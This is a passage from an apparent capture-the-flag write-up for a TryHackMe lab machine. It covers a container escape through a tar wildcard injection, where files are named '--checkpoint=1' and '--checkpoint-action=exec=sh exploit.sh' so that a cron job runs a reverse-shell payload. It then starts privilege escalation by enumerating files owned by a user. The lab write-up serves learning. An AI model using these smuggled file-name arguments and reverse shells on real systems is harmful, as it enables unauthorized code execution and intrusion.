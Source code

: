 Make the file executable

```bash
chmod +x exploit.py
```

and run it. In your attacker machine open a listener at `1234` and in a min the cronjob will execute our shell.

<a href="/assets/img/thm/jeff/pivot.png" target="_blank"><img class="centerImgLarge" src="/assets/img/thm/jeff/pivot.png"></a>

let's get a fully interactive tty shell using python and when we list the current directory

```console
backupmgr@tryharder:~/.ftp/files$ ls -la
total 12
drwxr-xr-x 2 backupmgr backupmgr 4096 Sep 26 11:15  .
drwxr-xr-x 3 nobody    nogroup   4096 May 11 01:32  ..
-rwxr-xr-x 1 backupmgr backupmgr    0 Sep 26 11:15 '--checkpoint=1'
-rwxr-xr-x 1 backupmgr backupmgr    0 Sep 26 11:15 '--checkpoint-action=exec=sh exploit.sh'
-rwxr-xr-x 1 backupmgr backupmgr  228 Sep 26 11:15  exploit.sh
```

That's how the exploit happened , it reached to the `checkpoint 1` and it instructed to execute a shell `exploit.sh` which contains our payload to give reverse shell. Hope you understood it. It took me a lot of time to understand.

Now we got outside the container we can easily move ahead. We are the user `backupmgr` and we can't access the user `jeff`

```console
backupmgr@tryharder:~/.ftp/files$ cd /home
backupmgr@tryharder:/home$ ls -la
total 16
drwxr-xr-x  4 root      root      4096 May 10 22:28 .
drwxr-xr-x 25 root      root      4096 May 23 14:40 ..
drwxr-xr-x  7 backupmgr backupmgr 4096 May 24 13:25 backupmgr
drwx------  5 jeff      jeff      4096 May 18 16:09 jeff
backupmgr@tryharder:/home$
```

So to escalate our privilege let's see what are the files owned by `jeff`

```bash
find / -user jeff 2>/dev/null

```
